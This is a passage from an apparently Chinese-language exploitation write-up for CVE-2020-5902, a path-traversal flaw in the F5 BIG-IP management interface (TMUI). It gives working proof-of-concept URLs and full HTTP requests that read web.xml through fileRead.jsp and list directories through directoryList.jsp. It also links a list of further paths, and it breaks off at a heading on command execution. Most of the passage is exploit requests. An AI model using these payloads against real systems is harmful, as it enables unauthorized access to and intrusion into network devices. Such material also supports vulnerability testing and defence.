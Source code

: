 ![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHAJOHRJ3FkHE5PfCwCX4Ds601RU5uHbRQZ7eq4m4ibOicibNw4e8exxJkQ/640?wx_fmt=png "")  
  
直接读取tmui的web.xml文件：  
```
/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/usr/local/www/tmui/WEB-INF/web.xml
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHK26swic8GQsyRZwSUOts2XwxCKhxTFx7PTyqJLtpRWttHbNJia4iaNOaw/640?wx_fmt=png "")  
```
GET/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/usr/local/www/tmui/WEB-INF/web.xml HTTP/1.1
Host: 192.168.174.214
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=3DD313DBE2953C844A648AF0EF8BCE1F


```  
  
其它路径可以参考：  
  
https://github.com/Al1ex/CVE-2020-5902/blob/master/common_path.txt  
###### 列目录项  
  
POC:  
```
/tmui/login.jsp/..;/tmui/locallb/workspace/directoryList.jsp?directoryPath=/usr/local/www/
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHcLd6ZtmUxV88ib7sx0WuWbfhePku9iaqsfVI5jtMr7tQ7ibEGERrbdSAw/640?wx_fmt=png "")  
```
GET/tmui/login.jsp/..;/tmui/locallb/workspace/directoryList.jsp?directoryPath=/usr/local/www/ HTTP/1.1
Host: 192.168.174.214
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=3DD313DBE2953C844A648AF0EF8BCE1F


```  
###### 命令执行  
  